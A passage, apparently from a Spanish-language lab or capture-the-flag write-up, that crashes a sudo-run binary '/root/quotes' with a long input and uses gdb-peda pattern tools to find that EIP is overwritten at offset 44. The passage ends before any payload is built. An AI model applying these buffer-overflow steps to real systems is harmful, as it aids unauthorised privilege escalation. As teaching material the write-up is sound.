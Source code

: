 Ahora vamos a ver si el programa se llega a corromper

```bash
aqua@aqua:~$ sudo /root/quotes $(python3 -c "print('A'*50)")
sudo /root/quotes $(python3 -c "print('A'*50)")
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,
Segmentation fault
aqua@aqua:~$  
```

Vamos a usar `gdb` con `peda` <https://github.com/longld/peda>

Vamos a ver cuantos caracteres necesitamos para antes de sobreescribir los registros

```bash
[----------------------------------registers-----------------------------------]
EAX: 0x37 ('7')
EBX: 0xbffffbc0 --> 0x2 
ECX: 0x7fffffca 
EDX: 0xb7fbc870 --> 0x0 
ESI: 0x8048ed0 ("Hi %s,\n")
EDI: 0xbffffb90 --> 0x2 
EBP: 0x41304141 ('AA0A')
ESP: 0xbffff3b0 --> 0xbf004162 
EIP: 0x41414641 ('AFAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414641
[------------------------------------stack-------------------------------------]
0000| 0xbffff3b0 --> 0xbf004162 
0004| 0xbffff3b4 --> 0x0 
0008| 0xbffff3b8 --> 0x0 
0012| 0xbffff3bc --> 0x0 
0016| 0xbffff3c0 ("Impossible is for the unwilling.")
0020| 0xbffff3c4 ("ssible is for the unwilling.")
0024| 0xbffff3c8 ("le is for the unwilling.")
0028| 0xbffff3cc ("s for the unwilling.")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414641 in ?? ()
gdb-peda$ 
```

No se por que no puedo verlo que pero hice esto antes de que me saliera eso

```
pattern_create 50 pattern
```

```
run $(cat pattern)
```

Vamos a pasarle `EIP` y necesitamos 44 antes de sobreescribir

```bash
gdb-peda$ pattern offset 0x41414641
1094796865 found at offset: 44
gdb-peda$ 
```
